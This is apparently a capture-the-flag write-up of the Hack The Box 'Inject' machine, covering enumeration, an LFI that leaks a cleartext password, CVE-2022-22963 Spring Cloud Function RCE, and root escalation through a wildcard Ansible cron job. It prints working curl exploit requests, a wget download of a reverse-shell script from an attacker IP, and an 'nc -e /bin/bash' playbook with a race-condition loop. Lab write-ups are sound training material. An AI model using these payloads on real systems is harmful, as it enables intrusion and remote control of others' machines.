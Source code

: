 # Inject Machine

## Service Enumeration

To begin with, I start scanning all the ports on the target to obtain an overall picture of the target. For this I use following command ```sudo nmap -sS -p- --min-rate 10000 -v inject.htb```

![image](images/Inject/Imagen1.png)


Once the open ports are known, I began the service enumeration process. In order to do this, nmap tool was used and, specifically the following command: ```sudo nmap -sS p22,8080 -sV -O inject.htb```

![image](images/Inject/Imagen2.png)

### Port Scan Results

![image](images/Inject/PortScan.PNG)

### HTTP Enumeration

The first step taken was to scan using gobuster in order to find directories and other functions in the service. The command used was ```sudo gobuster dir -u http://inject.htb:8080/ -w /usr/share/wfuzz/wordlist/general/big.txt -x php,txt,zip,py```

![image](images/Inject/Imagen3.png)

As it can be seen in the picture above, “/upload” is found. If visited, it allows a user to upload images to the web server and then, takes the user to another URL where it shows the recently uploaded picture.

![image](images/Inject/Imagen4.png)

If we click on “View your Image” the web server then take us to a new URL ```/show_image?img=1 (5).jpg``` where it shows the picture.

![image](images/Inject/Imagen5.png)

Next thing tried was to check if there was some kind of LFI on the “img” parameter using burpsuite and an LFI dictionary (“https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt”).

![image](images/Inject/Imagen6.png)

![image](images/Inject/Imagen7.png)

As it can be seen, LFI vulnerability is found. The next step is to search for juicy files. A cleartext password for user “phil” is found on “/home/frank/.m2/settings.xml” (DocPhillovestoInject123). 

![image](images/Inject/Imagen8.png)

Another juicy file is found ‘/var/www/WebApp/pom.xml’, inside it, we can see all the dependen-cies used in the application. As it can be seen, it uses spring-cloud-function-web which has a known vulnerability **CVE-2022-22963**

![image](images/Inject/Imagen9.png)

## Initial Access - RCE

**Vulnerability Explanation** Spring Cloud Function versions 3.1.6, 3.2.2 and older versions are vulnerable to RCE if routing functionality is used. It is possible for a user to provide an specially crafted SpEL as a routing-expression that may result in remote code execution (“https://nvd.nist.gov/vuln/detail/CVE-2022-22963”).

**Vulnerability Fix**: Users should upgrade to version 3.1.7 or 3.2.3. (“https://spring.io/security/cve-2022-22963”)

**Severity**: Critical

**Steps to reproduce the attack**: In order to reproduce the attack, a POST HTTP request must be made. Curl command is the following: ```curl -X POST  http://inject.htb:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("command-to-execute")' --data-raw 'data' -v``` .  We will obtain RCE and execute commands. PoC obtained here https://github.com/me2nuk/CVE-2022-22963

To obtain a shell in the machine, the following steps were taken:

1.	Create a local sh file containing a bash reverse shell called “shell.sh”. And start a python simple http server on port 8000 in order to serve “shell.sh”

![image](images/Inject/Imagen10.png)

3.	Download it on the victim using: ```curl -X POST  http://inject.htb:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("wget http://10.10.14.7:8000/shell.sh -O /tmp/shell.sh ")' --data-raw 'data' -v```

4.	Make it executable using: ```curl -X POST  http://inject.htb:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("chmod +x /tmp/shell.sh ")' --data-raw 'data' -v```

5.	Execute it with: ```curl -X POST  http://inject.htb:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("./tmp/shell.sh ")' --data-raw 'data' -v```

6.	Receive the reverse connection and get the shell.

![image](images/Inject/Imagen11.png)

## Post-Exploitation

Once accessed, let's retrieve the user flag.

First step is to use the previously found cleartext credential and try to access as user “phil”.

![image](images/Inject/Imagen12.png)

![image](images/Inject/Imagen13.png)

## Privilege Escalation - Cron Process Exploitation

**Vulnerability Explanation**: Each two minutes a cron process is executed as Root (ansible-parallel). This cron job does the following:

1.	Deletes everything in “/opt/automation/tasks/”, then copies there “/root/playbook_1.yml”.

2.	Executes ```/bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml```.

3.	As a result of the previous command, each yml file is executed using binary “ansible-playbook” ```/usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml```

![image](images/Inject/Imagen14.png)

Placing a malicious yml file in “/opt/automation/tasks” in the right moment, will result in this file getting executed with elevated privileges (it is important to take into account the race condition that exists as the cron job firstly deletes everything in the folder)

**Vulnerability Fix**: Avoid using wildcards to specify a cron job argument that is run as root.

**Severity**: Critical

**Steps to reproduce the attack**:

1.   Create a malicious yml file with the following content:

```
-  hosts : localhost
   tasks:
    - name: Check pwn
    ansible.builtin.shell: nc 10.10.14.12 4444 -e /bin/bash
    args:
      executable: /bin/bash
```
![image](images/Inject/Imagen15.png)

2.   Create a bash script to win the race condition with the following content:

```

while true;
do
    if ! [ -e /opt/automation/tasks/pwnbook.yml ]; then
      cp pwnbook.yml /opt/automation/tasks/pwnbook.yml
    fi
done

```

3.    Listen on port 4444 on the attacking machine, execute the bash script in the background and wait for the incoming connection.









